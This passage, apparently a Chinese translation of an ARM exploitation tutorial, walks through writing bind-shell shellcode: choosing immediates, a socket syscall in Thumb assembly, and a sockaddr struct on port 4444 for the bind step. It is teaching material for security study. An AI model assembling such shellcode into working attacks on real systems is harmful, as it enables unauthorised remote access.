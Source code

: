 在 ARM 中，我们不能简单地将任何立即数移动到寄存器中。如果你对这一细节比较感兴趣，你可以阅读这篇[参考文章](https://azeria-labs.com/memory-instructions-load-and-store-part-4/)（在比较靠后的章节）。

为了检查我们是否可以使用某个立即数，我写了一个简单的脚本：[/attachments/2018-01-15-rotator.py](https://raw.githubusercontent.com/azeria-labs/rotator/master/rotator.py)
```
pi@raspberrypi:~/bindshell $ python rotator.py
Enter the value you want to check: 281
Sorry, 281 cannot be used as an immediate number and has to be split.

pi@raspberrypi:~/bindshell $ python rotator.py
Enter the value you want to check: 200
The number 200 can be used as a valid immediate number.
50 ror 30 --> 200

pi@raspberrypi:~/bindshell $ python rotator.py
Enter the value you want to check: 81
The number 81 can be used as a valid immediate number.
81 ror 0 --> 81
```
最终的代码片段为：
```
    .THUMB
    mov     r0, #2
    mov     r1, #1
    sub     r2, r2, r2
    mov     r7, #200
    add     r7, #81                // r7 = 281 (socket syscall number) 
    svc     #1                     // r0 = host_sockid value 
    mov     r4, r0                 // save host_sockid in r4
```

### 2 - 绑定Socket到本地端口
![/img/2018-01-15/t014aa554619e5b7986.png](https://p1.ssl.qhimg.com/t014aa554619e5b7986.png)

通过第一条命令，我们将一个包含地址族、主机端口以及主机地址的结构体对象存放在文字池（literal pool）中，通过pc相对地址来引用这个对象。文字池是同一个 section 中的一段内存区域（因为文字池本身就是代码中的一部分），可以存放常量、字符串或者偏移量。我们无需手动计算 pc 相对地址，相反，我们可以使用带有便签（label）的 ADR 指令完成这一任务。 ADR 可以接受 PC 相对表达式，也就是带有可选偏移量的标签，其中标签的地址为与 PC 标签有关的相对地址。如下所示：
```
// bind(r0, &sockaddr, 16)
 adr r1, struct_addr    // pointer to address, port
 [...]
struct_addr:
.ascii "x02xff"       // AF_INET 0xff will be NULLed 
.ascii "x11x5c"       // port number 4444 
.byte 1,1,1,1           // IP Address
```
接下来的 5 条指令为 STRB （store byte）指令。 STRB 指令可以将寄存器中的一个字节存储到某个内存区域中。 [r1, #1] 语句的意思是将 R1 作为基地址，使用立即数（#1）作为偏移量。

在第一条指令中，我们将 R1 指向了存放 AF_INET 、本地端口以及 IP 地址的那个内存区域。我们可以使用静态IP地址，也可以直接使用 0.0.0.0 这个地址，这样我们的 bind shell 就会监听在目标主机所有的IP地址上， shellcode 也更加灵活。但这样代码中会包含许多null字节。
